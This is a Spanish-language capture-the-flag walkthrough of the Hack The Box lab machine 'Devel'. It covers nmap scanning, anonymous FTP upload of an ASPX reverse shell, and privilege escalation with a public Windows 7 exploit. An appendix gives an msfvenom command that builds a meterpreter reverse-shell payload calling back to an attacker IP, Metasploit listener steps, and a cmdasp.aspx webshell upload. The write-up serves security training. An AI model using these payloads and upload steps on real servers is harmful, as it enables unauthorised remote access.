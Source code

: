 ```yaml
---
layout: single
title: Devel - Hack The Box
excerpt: "Devel es una maquina windows que se explota mediante un servicio FTP que tiene subida arbitraria de archivos, por medio de esta debilidad, se logra establecer una conexión al equipo victima y ejecutar comandos, luego se logra escalar privilegios por medio de un exploit conocido basado en la versión del sistema operativo."
date: 2021-10-10
classes: wide
header:
  teaser: /assets/images/htb-writeup-devel/devel-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - ftp
  - windows
  - arbitrary file upload
---
```


![](/assets/images/htb-writeup-devel/devel-logo.png)


Esta es una maquina de nivel facil segun hack the box, donde por medio de un servicio FTP se logra subir archivos que permiten ganar acceso al sistema.

## Enumeración
vamos a comenzar enumerando el sistema con nmap para descubrir puertos y servicios corriendo en dichos puertos

```
nmap -sC -sV 10.10.10.5
```

el escaneo de nmap nos reporta los puertos 21(ftp) y 80(http) abiertos

```
Nmap scan report for 10.10.10.5
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

nmap fue capaz de identificar que el puerto 21 permite logearse con el usuario "Anonymous", el cual no se necesita contraseña para ingresar. 

# Acceso y explotación

Nos conectamos al servicio FTP
```
ftp 10.10.10.5
```
y observamos 3 archivos
![](/assets/images/htb-writeup-devel/devel1.png)

Si navegamos por el puerto 80, veremos la imagen clasica del servicio IIS de windows, sin embargo, al entrar al servicio FTP está la misma imagen (welcome.png) que nos muestra mediante el puerto 80. Por lo que una vía pontencial de explotación es intentar subir una reverse shell.

Buscando en internet "aspx reverse shell github" encontramos una que nos sirve
![](/assets/images/htb-writeup-devel/devel2.png)

por lo que la descargamos en nuestra maquina de atacante 
![](/assets/images/htb-writeup-devel/devel3.png)

y cambiamos la IP y puerto local a la que nos queremos conectar.
![](/assets/images/htb-writeup-devel/devel6.png)

ahora, nos conectamos al servicio FTP (FTP IP-VICTIMA) y ejecutamos el siguiente comando para subir nuestra shell que acabamos de descargar
```
put shell.aspx
```

una vez subida, nos tendremos que poner en escucha con netcat
![](/assets/images/htb-writeup-devel/devel7.png)

y ejecutamos el archivo que subimos desde la web
![](/assets/images/htb-writeup-devel/devel5.png)

y ya logramos ganar acceso al sistema
![](/assets/images/htb-writeup-devel/devel4.png)


# Escalación de privilegios
Una vez ganado acceso el sistema, podemos ver ante que SO nos estamos enfrentando, con el comando
```
systeminfo
```

Según la información del SO, estamos ante un Windows 7 6.1.7600
![](/assets/images/htb-writeup-devel/devel8.png)

buscando en internet un exploit para esta versión, encontramos uno, asi que vamos a probarlo 
![](/assets/images/htb-writeup-devel/devel9.png)

Para ejecutar este exploit, primero necesita ser compilado, en caso de que no tengas la utilidad *mingw-w64* (la cual sirve para compilar exploits de windows en linux) puedes instalarla con el siguiente comando
```
sudo apt-get install mingw-w64
```

ahora solo queda subir el exploit mediante FTP y ejecutarlo en la maquina victima. Nota: cuando ingresemos por FTP, debemos ejecutar el comando "binary" dado que se suelen perder datos de archivos al subirlo, con este comando hacemos que se suba intacto.
![](/assets/images/htb-writeup-devel/devel10.png)

una vez subido, nos dirigimos a la ruta C:\inetpub\wwwroot y ejecutamos el exploit que acabamos de subir, y nos convertimos en el usuario **nt authority\system**
![](/assets/images/htb-writeup-devel/devel11.png)



 
# Anexos

## shell con metasploit
creamos el payload
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.16.6 lport=4444 -f aspx -o shell.aspx
```

nos ponemos en escucha
1. ```msfconsole```
2. ```use exploit/multi/handler```
3. ```set payload windows/meterpreter/reverse_tcp```
4. ```set lhost 10.10.16.6```
5. ```set lport 1234```
6. ```run```


## Pseudo consola para ejecución de comandos
Parrot y Kali linux traen una pseudo consola para en lenguaje aspx que nos permite ejecutar comandos, para encontrla podemos escribir el siguiente comando
```
locate cmdasp.aspx
```

este archivo lo subimos mediante FTP y tendremos ejecución de comandos, para luego establecer una reverse shell a nuestro equipo.
